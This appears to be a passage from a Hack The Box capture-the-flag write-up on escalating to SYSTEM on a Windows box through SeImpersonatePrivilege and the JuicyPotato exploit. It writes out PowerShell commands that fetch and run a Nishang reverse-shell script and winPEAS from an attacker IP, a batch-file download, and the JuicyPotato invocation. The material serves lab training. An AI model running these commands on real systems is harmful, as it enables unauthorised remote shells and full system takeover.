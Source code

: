 You can also just print the privileges using "whoami /priv" command.

```
PS C:\Users\merlin\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Since the SeImpersonatePrivilege is Enabled, We have couple of options. We have discussed this options in Grandpa.HTB as well. For this box, we are going to try out JuicyPoteto exploit.

1. Download the Juicypoteto binary from [Link](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) 
2. Using Impacket-SmbServer transfer it to the target. Also, start the Python Web Server.
3. Download the [Nishang PowerShell script](https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/Invoke-PowerShellTcp.ps1) from Here and change the last line with your IP and Port 4444. Place this on in the same directory where the SMB Server and Python Web Server is running.
4. Prepare a bat file on target machine with the following line
```
echo "powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')" > shell.bat
```

5. Download the batch script onto the target box using the command below.
```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.16.5:80/shell.bat', 'C:\Users\merlin\Documents\shell.bat')
```

6. Check the [valid list of CLSID on this Link](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/) 
7. Start the Listener on port 4444
8. Run the exploit with the following command
```
./JuicyPotato.exe -l 4444 -p C:\Users\merlin\Documents\shell.bat -t * -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

9. You should get the SYSTEM shell.

#### Powershell to Download the file
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8081/winPEAS.ps1')"
```